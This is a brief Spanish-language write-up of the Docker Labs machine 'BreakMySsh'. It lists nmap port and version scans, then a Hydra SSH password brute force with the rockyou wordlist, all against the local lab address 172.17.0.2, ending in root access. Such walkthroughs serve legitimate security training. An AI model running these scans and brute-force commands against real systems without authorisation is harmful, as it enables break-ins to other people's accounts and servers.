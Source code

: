 # BreakMySsh

Dificultad: Muy Facil
Tecnicas: Hydra
Pagina: Docker labs
Estado: Listo

# 

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- —open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```

![image.png](image.png)

```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p22 -sCV -oN targeted 172.17.0.2
```

![image.png](image%201.png)

```bash
Implementamos hydra para ver si encontramos la contraseña 

hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt 
-P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2
```

![image.png](image%202.png)

```bash
Ingresamos mediante ssh con el usuario y contraseña correspondiente. Y ya somos root
```

![image.png](image%203.png)